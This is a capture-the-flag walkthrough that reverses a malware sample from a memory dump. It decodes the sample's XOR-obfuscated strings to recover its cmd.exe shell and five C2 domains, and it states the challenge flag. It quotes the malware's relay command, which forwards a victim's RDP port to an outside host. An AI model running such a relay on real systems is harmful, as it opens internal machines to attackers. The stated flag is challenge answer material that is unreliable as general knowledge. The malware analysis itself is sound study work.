# Command & Control - level 6

## Challenge Details

- Category: Forensics
- Points: 50
- Validation: 6475
- Author: Thanat0s
- Status: Done
# Handout
`Command & Control - level 6: Reverse engineering; Berthier, before blocking any of the malware’s traffic on our firewalls, we need to make sure we found all its C&C. This will let us know if there are other infected hosts on our network and be certain we’ve locked the attackers out. That’s it Berthier, we’re almost there, reverse this malware! The validation password is a fully qualified domain name : hote.domaine.tld`

## Walkthrough
It's the same dump from level 2, so our volatility patch should continue working. In level 5 we got the tcprelay arguments: 

`tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443`

So that's it? Fortunately yourcsecret.co.tv isn't the flag so we didn't skip the rev, there's probably a lot many different domains the malware uses and rotates? From level 3 we know the malicious file is:

`C:\Users\John Doe\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\iexplore.exe`

Let's dump this; finding it's offset:

```bash
$ vol -f ch2.dmp windows.filescan > files.txt && rg iexplore files.txt
34:0x2e944d0    \Program Files\Internet Explorer\en-US\iexplore.exe.mui
674:0x1de99318  \Program Files\Internet Explorer\en-US\iexplore.exe.mui
1051:0x1e0cead8 \Program Files\Internet Explorer\en-US\iexplore.exe.mui
1911:0x1fcf3c68 \Program Files\Internet Explorer\iexplore.exe
2253:0x1fdce250 \Users\John Doe\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\iexplore.exe
```

Our exe is at offset 0x1fdce250, let's dump this:
```bash
$ mkdir dumped
$ vol -f ch2.dmp -o dumped windows.dumpfiles --physaddr 0x1fdce250
Volatility 3 Framework 2.28.0
Progress:  100.00               PDB scanning finished
Cache   FileObject      FileName        Result

ImageSectionObject      0x1fdce250      iexplore.exe    file.0x1fdce250.0x883db890.ImageSectionObject.iexplore.exe.img
```

and defender immediately deleted it. amazing.



Low hanging fruit: strings

```bash
$ strings dumped/file.0x1fdce250.0x883db890.ImageSectionObject.iexplore.exe.img
!This program cannot be run in DOS mode.
.text
P`.data
.rdata
0@.bss
.idata
$\ @
%@Q@
%<Q@
%LQ@
%PQ@
%HQ@
%DQ@
%8Q@
VSt0
%,Q@
%$Q@
%(Q@
DEADBABE
{t~5ye{
libgcj_s.dll
_Jv_RegisterClasses
vj(5ko
jZGGURJ
~lhrshm1DDTJHVJNNL
a)o|2tjvSKWPPISDC
iy|lz
RG[]
UBZKCJB
IFB]A
lq+hun0s
_       G[M
```

Nothing too useful, everything's probably obfuscated. Loading it in ida:





start function calls `sub_401020()`



This seems mostly setup (like resembles `__getmainargs(&argc, &argv, env, wildcard, startupinfo);` structure), call to sub_401581 being interesting:



`sub_4019A0(900000);` probably telling it to wait 15 minutes before doing the hacking shacking, normal behavior to avoid analysis.

`sub_4012F0` is probably a decoder function, as it's called on loop for each of the v2 entries, as there are no viable strings everything is probably trivially "obfuscated". 
`sub_4012F0((int)*(&off_402018 + v2), (int)&unk_404050);`

moves decoded v2 entries into buffer

then calls  `sub_4013CD(unk_404050)` for the decoded v2 entry.



so a1 is our decoded entry, checks if sub_401660 on the v2 entry succeeds



So this imports a windows api thru .idata, let's look at it's name; its importing from: 0x405001 + 331 or 0x40514c

Let's jump here.



Well that's sad, ida couldn't resolve the imports, hence why this thing is so broken and ugly, .idata wasn't parsed cleanly, but judging by the logic we have so far:



We can probably guess that sub_401660 is checking for connectivity to the c2 server / resolving the domain.




sub_401407 looks a lot like the structure for connecting to a c2, specifically `sub_401910(&unk_4040B4, **(_DWORD **)(resolved + 12), 4);` matches a hostent struct reference:



So at this point, we can safely say that v2 indeed contains the c2 domains.
sub_4014A2() is probably the main malicious code:



We can confirm what it's doing by reversing the decode function sub_4012F0():



in a more readable form:

```c
char *__cdecl decode_string(char *source, char *dest)
{
    int i;
    unsigned char key = 0;

    for (i = 0; byte_402004[i]; i++)
        key += byte_402004[i];

    for (i = 0; source[i]; i++)
        dest[i] = source[i] ^ key++;

    dest[i] = 0;
    return dest + i;
}
```

So it's making an xor key from byte_402004, and keeps incrementing it as we move ahead in the ct to be decoded.
Let's get the xor key at byte_402004:



ida splitting it up weirdly, but we can see 402004 contains 0x44, D and then EADBABE
so the xor key seed is DEADBABE

So:
```c
char *__cdecl decode_string(char *source, char *dest)
{
    int i;
    unsigned char key = 0;

    for (i = 0; deadbaberef[i]; i++)
        key += deadbaberef[i];

    for (i = 0; source[i]; i++)
        dest[i] = source[i] ^ key++;

    dest[i] = 0;
    return dest + i;
}
```

So the key is summing up the bytes for `DEADBABE` :

```
D  E  A  D  B  A  B  E
44 45 41 44 42 41 42 45
```

```
0x44 + 0x45 + 0x41 + 0x44 + 0x42 + 0x41 + 0x42 + 0x45 = 0x218
```

Now this is stored in a single byte, so our key effectively becomes `0x18`
So the decoder starts with `0x18` and increments it by 1 for each character.

Let's start decoding the refs.
From `sub_4014A2()`, it was doing something with `(int)aT5ye`, this is actually an encoded string:



Let's try decoding `{t~5ye{` using our new decryption logic:

```python
#seed = b"DEADBABE" 
#key = sum(seed) & 0xff
key = 0x18
encoded = b"{t~5ye{" 
decoded = bytearray() 
for b in encoded: 
	decoded.append(b ^ key) 
	key = (key + 1) & 0xff 
print(decoded.decode())
```

```bash
$ python3 decode.py
cmd.exe
```

Yay it works! This also confirms our assumption that `sub_4014A2()` was spawning a shell, and is the main *hacking* function.



So it resolves the domain, sets up a connection, spawns cmd.exe and does some hacking.
Let's just get the c2 domains from v2 using our decode script, too bad we don't have to reverse what's actually going on, or see why the relay domain was using the rdp port.

The encodedc2 was an encoded table at offset `0x402108`, which our "internet explorer" indexed as v2, and looped from 0 to 4, and indeed `off_402108` also contains 5 entries



Each entry is a pointer to an encoded string in `.rdata`, these being:
`unk_403024`, `unk_403037`, `aAO2tjvskwppisd`, `unk_403064`, `unk_403084`
`aAO2tjvskwppisd` points to `0x40304E`
Instead of manually getting all of these it's better to use ida python. 

```python
import ida_bytes

#seed=b"DEADBABE"
#key = sum(b"DEADBABE") & 0xff
key = 0x18

addrs = [0x403024,  0x403037,  0x40304E,  0x403064,  0x403084]

def decodeat(addr):  
	flag = []  
	i = 0  
  
	while True:  
		b = ida_bytes.get_byte(addr + i)  
		if b == 0:  
			break  
  
		flag.append(chr(b ^ ((key + i) & 0xff)))  
		i += 1  
  
	return "".join(flag)  
  
for addr in addrs:  
	print(hex(addr), decodeat(addr))
```



And there it is! We have our 5 domains:

```text
0x403024 ns2.wrauzfevvo.com
0x403037 furious.devilslife.com
0x40304e y0ug.itisjustluck.com
0x403064 whereare.sexy-serbian
0x403084 th1sis.l1k3aK3y.org
```

I tried all of them, and the one at `0x403084` turned out to be the fqdn of the c2 they were looking for!



# FLAG
th1sis.l1k3aK3y.org
